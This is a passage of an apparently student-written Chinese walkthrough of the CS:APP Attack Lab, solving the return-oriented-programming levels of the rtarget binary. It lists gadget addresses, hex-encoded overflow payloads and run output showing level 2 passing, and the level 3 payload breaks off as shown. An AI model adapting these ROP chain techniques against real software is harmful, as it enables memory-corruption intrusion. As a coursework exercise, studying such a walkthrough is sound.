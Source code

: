 ```
mov %rax,%rdi
ret
```

利用这两片代码，我们可以轻易地构造出答案：

```
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
ab 19 40 00 00 00 00 00 ; 0x4019ab
fa 97 b9 59 00 00 00 00 ; cookie
a2 19 40 00 00 00 00 00 ; 0x4019a2
ec 17 40 00 00 00 00 00 ; touch2()
```

运行之：

```
name1e5s@sumeru:~/csapp/attacklab-name1e5s/target1$ ./hex2raw < p2l2.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### Level 3

这一题是全实验最难的地方，经过良久查找，我发现可以拼凑成如下代码：

```
0x401a06       movq %rsp, %rax
0x4019c5       movq %rax, %rdi
0x4019ab       popq %rax      
offset
0x4019dd       movl %eax, %edx
0x401a34       movl %edx, %ecx
0x401a13       movl %ecx, %esi
0x4019d6       lea (%rdi,%rsi,1),%rax
0x4019c5       movq %rax, %rdi
touch3
cookie
```

构造答案如下：

```
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
```
